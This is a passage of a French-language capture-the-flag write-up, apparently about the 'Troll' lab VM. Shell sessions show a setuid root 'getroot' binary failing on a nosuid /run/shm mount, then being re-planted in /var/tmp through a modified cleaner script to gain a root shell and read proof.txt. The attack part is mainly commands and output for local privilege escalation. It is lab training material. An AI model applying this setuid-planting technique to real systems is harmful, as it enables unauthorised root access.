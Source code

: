 Après un moment on a bien récupéré les permissions :  

```plain
overflow@troll:/$ ls -l /run/shm/
total 2724
-rwsr-xr-x 1 root root 2786558 Aug 21 14:30 getroot
```

Seulement, à l'exécution...  

```plain
overflow@troll:/$ /run/shm/getroot 
overflow@troll:/$ id
uid=1002(overflow) gid=1002(overflow) groups=1002(overflow)
overflow@troll:/$ mount
/dev/sda1 on / type ext4 (rw,errors=remount-ro)
proc on /proc type proc (rw,noexec,nosuid,nodev)
sysfs on /sys type sysfs (rw,noexec,nosuid,nodev)
none on /sys/fs/cgroup type tmpfs (rw)
none on /sys/fs/fuse/connections type fusectl (rw)
none on /sys/kernel/debug type debugfs (rw)
none on /sys/kernel/security type securityfs (rw)
udev on /dev type devtmpfs (rw,mode=0755)
devpts on /dev/pts type devpts (rw,noexec,nosuid,gid=5,mode=0620)
tmpfs on /run type tmpfs (rw,noexec,nosuid,size=10%,mode=0755)
none on /run/lock type tmpfs (rw,noexec,nosuid,nodev,size=5242880)
none on /run/shm type tmpfs (rw,nosuid,nodev)  <--- FAIL
none on /run/user type tmpfs (rw,noexec,nosuid,nodev,size=104857600,mode=0755)
none on /sys/fs/pstore type pstore (rw)
systemd on /sys/fs/cgroup/systemd type cgroup (rw,noexec,nosuid,nodev,none,name=systemd)
```

Le dossier */run/shm* est monté en nosuid. On va chercher ailleurs un dossier dans lequel on peut écrire :  

```plain
overflow@troll:/$ find / -type d -writable 2> /dev/null | grep -v /proc
/tmp
/run/user/1002
/run/shm
/run/lock
/var/tmp
/sys/fs/cgroup/systemd/user/1002.user/9.session
/sys/fs/cgroup/systemd/user/1002.user/8.session
```

/var/tmp devrait faire l'affaire. On rectifie le cleaner une nouvelle fois et on recommence :  

```plain
overflow@troll:/$ ls /var/tmp/getroot -l
-rwsr-xr-x 1 root root 2786558 Aug 21 18:23 /var/tmp/getroot
overflow@troll:/$ /var/tmp/getroot
root@troll:/# id
uid=0(root) gid=0(root) groups=0(root),1002(overflow)
root@troll:/# cd /root
root@troll:/root# ls
proof.txt
root@troll:/root# cat proof.txt 
Good job, you did it! 

702a8c18d29c6f3ca0d99ef5712bfbdc
```
